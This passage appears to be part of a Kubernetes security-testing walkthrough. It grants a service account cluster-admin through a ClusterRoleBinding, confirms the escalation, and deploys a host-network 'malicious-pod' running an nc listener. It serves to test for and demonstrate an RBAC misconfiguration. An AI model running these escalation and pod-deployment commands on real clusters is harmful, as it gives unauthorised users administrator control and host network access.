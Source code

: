 ```bash
kubectl create clusterrolebinding escalate-privs --clusterrole=cluster-admin --serviceaccount=test-ns:test-user
```

**Explanation:** This command attempts to create a ClusterRoleBinding that grants the `cluster-admin` ClusterRole to the `test-user` service account. If the `test-user` has the necessary permissions due to a wildcard, this command will succeed.

**Expected Output:**

*   **Successful Execution (Vulnerable):** If the command succeeds, it confirms that the `test-user` has the necessary permissions to create ClusterRoleBindings, which is a clear indicator of privilege escalation. You'll see output similar to: `clusterrolebinding.rbac.authorization.k8s.io/escalate-privs created`
*   **Error (Not Vulnerable):** If the command fails with an authorization error (e.g., "forbidden: User ... cannot create clusterrolebindings.rbac.authorization.k8s.io in the cluster scope"), it indicates that the `test-user` does not have the necessary permissions.

**Why:**  This is a direct attempt to escalate privileges to cluster administrator.

**Step 4: Validate Increased Permissions**

```bash
kubectl auth can-i --list --as=system:serviceaccount:test-ns:test-user --namespace=test-ns
```

**Explanation:**  This is the same command as Step 1, but executed after attempting to escalate privileges.

**Expected Output:** The output should now show that the `test-user` has access to perform any action on any resource.  This confirms that the privilege escalation was successful. Look for output showing access to core resources with `verbs: ["*"]`.

**Why:** This step confirms that the `test-user` now has cluster-admin level privileges.

**Step 5: (Exploitation) Deploy a Malicious Pod**

Now that `test-user` has cluster-admin privileges, deploy a malicious pod to demonstrate the impact. This pod will be configured to run in the host network namespace, giving it access to the host's network interfaces.

```bash
cat <<EOF | kubectl apply -f -
apiVersion: v1
kind: Pod
metadata:
  name: malicious-pod
  namespace: default
spec:
  hostNetwork: true
  containers:
  - name: malicious-container
    image: alpine/socat
    command: ["/bin/sh", "-c", "while true; do nc -l -p 8000 > /dev/null; done"]
EOF
```
